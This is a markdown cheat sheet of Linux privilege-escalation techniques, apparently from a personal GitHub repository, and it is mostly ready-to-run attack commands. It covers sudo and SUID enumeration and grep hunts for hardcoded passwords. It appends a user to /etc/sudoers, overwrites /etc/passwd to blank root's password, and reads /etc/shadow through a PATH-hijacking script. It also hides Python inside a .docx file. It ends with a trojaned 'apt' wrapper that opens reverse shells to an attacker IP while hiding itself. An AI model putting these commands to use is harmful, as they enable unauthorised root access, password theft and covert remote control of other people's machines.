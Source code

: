 # GTFO Bins:
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
```
https://gtfobins.github.io/
```

# Commands:
check to see what sudo privledges the user has
```
sudo -l
cat /etc/sudoers
```

# other Super Users?:
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}'
```

# lists available exploits Linux kernel in kali Linux
```
searchsploit Linux Kernel 2.6.24 
```


# Grep hardcoded passwords:
### Use grep to look for user in filename
```
grep -i user [filename]
```
### Use grep to look for pass in filename
```
grep -i pass [filename]
```
### Use grep to look for password in filename
```
grep -C 5 "password" [filename]
```
### find php file and check them for the variable $password
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```



# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

# Use Python to run script in zip file:
```
mkdir test
echo 'print("Hello World!!") > test/__main__.py
zip -j test.zip test/*
python test.zip
```

# Hide python code in other zip formats
https://twitter.com/zetatwo/status/1505321639835312131?s=27
```
echo 'print("HELLO WORLD!")' > __main__.py
zip my-document.docx __main__.py
(echo '#!/usr/bin/env python3'; cat my-document.docx) > legit.docx
./legit.docx
```





## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

# if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
Check history 
```
history
```
Change the name of the file you are creating to be a program they use often, especially if they use sudo with it. change the script to use the shell of your choice. 

Find the most common program used with sudo 
```
history | grep sudo | awk '{print $2, $3}' | sort | uniq -c | sort -nr | awk '{print $3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'
```
assuming that program is apt
```
nano apt
```
## Apt Example:
```
#!/bin/bash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1 2>&1 &

exec 196<>/dev/tcp/192.168.1.44/4443; sh <&196 >&196 2>&196 &

/bin/bash -l > /dev/tcp/192.168.1.44/4442 0<&1 2>&1 &

# open original program to prevent suspicion 
/usr/bin/apt $1 $2 $3 $4 $5 $6 $7 $8 $9
```

make executable 
```
chmod 755 apt
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
OR
export PATH=$PWD:$PATH
```
wait for the user to run the program
